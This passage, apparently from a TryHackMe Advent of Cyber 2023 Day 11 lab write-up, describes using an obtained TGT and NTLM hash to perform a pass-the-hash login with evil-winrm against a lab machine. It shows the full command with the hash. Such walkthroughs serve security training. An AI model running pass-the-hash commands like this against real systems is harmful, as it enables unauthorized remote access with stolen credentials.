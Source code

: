 ![Advent of Cyber 2023 Day 11 - TGT](tryhackme/images/aoc2023d11_tgt.png)

From the above, we have successfully obtained a TGT for the `vansprinkles` user. As such, we can now carry out a **pass-the-hash** attack via `evil-winrm`, the username and NTLM hash, as follows:

```console
$ evil-winrm -i 10.10.196.229 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

![Advent of Cyber 2023 Day 11 - Evil-WinRM](tryhackme/images/aoc2023d11_evil_winrm.png)
